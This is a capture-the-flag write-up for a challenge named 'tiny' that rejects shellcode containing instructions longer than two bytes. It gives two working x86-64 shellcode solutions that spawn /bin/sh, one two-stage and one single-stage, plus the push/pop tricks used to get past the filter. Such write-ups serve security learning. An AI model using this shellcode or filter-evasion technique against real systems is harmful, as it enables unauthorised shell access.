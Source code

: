 # tiny

tiny reads from stdin and executes what it reads as shellcode.
The problem is that it uses libcapstone to disassemble the shellcode and it checks whether the shellcode contains instructions with more than 2 bytes. If it does, it exits withou executing our shellcode.

## First Solution

This is the first solution I came up with. It's not the best one, but it works. Basically, it is multistage exploit. The first stage is a shellcode that reads the second stage from stdin. The second stage is the actual shellcode that spawns a shell.

### First Stage

```asm
xor edi, edi
push rdx
pop rsi
xor edx, edx
push 100
pop dx
syscall
```

- RDI: is set to 0, so the read syscall will read from stdin.
- RSI: it must be set to the address where the shellcode will be written. The trick to have instructions with less than 2 bytes is to use POP/PUSH instead of MOV.
- RDX: is set to 100, so the read syscall will read 100 bytes. The same trick used for RSI is used here.
- RAX: it's not changed because it already contains 0 (the read syscall number).

### Second Stage

```asm
mov rdi, rsi
add rdi, 0x22
mov rax, 0x3b
xor rsi, rsi
xor rdx, rdx
syscall
.string "/bin/sh"
```

- RDI: it must be set to the address of the string "/bin/sh". 0x22 is the offset of the string from the address where the shellcode is written.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

Note: Why 0x22? Because the first stage is 12 byte long. The second one 22. Then 34=0x22. We need to consider the first stage because the RIP at the end of the first stage will point right after the first stage and we are writing at the beginning of the first stage. In fact, we need to put also 12 NOPs at the beginning of the second stage.

## Second Solution

This is the second solution I came up with. It's better than the first one because it's a single stage exploit. The shellcode doesn't contain instructions with more than 2 bytes.

```asm
push rdx
pop rax
add al, 0x10
push rax
pop rdi
xor eax, eax
mov al, 0x3b
xor edx, edx
xor esi, esi
syscall
.string "/bin/sh"
```

- RAX: it's set to RDX+0x10. RDX contains the address of the shellcode, so RAX will contain the address of the string "/bin/sh" and 0x10 is the offset of the string from the address of the shellcode in fact the shellcode is 16 byte long.
- RDI: it's set to RAX. We are using RAX here to temporarily store the address of the string "/bin/sh" because for some reason the ``add al, 0x10`` it's just 2 bytes long.
- RAX: it's set to 0x3b (the execve syscall number).
- RSI: it's set to 0.
- RDX: it's set to 0.

The complete exploit is in [script.py](script.py).
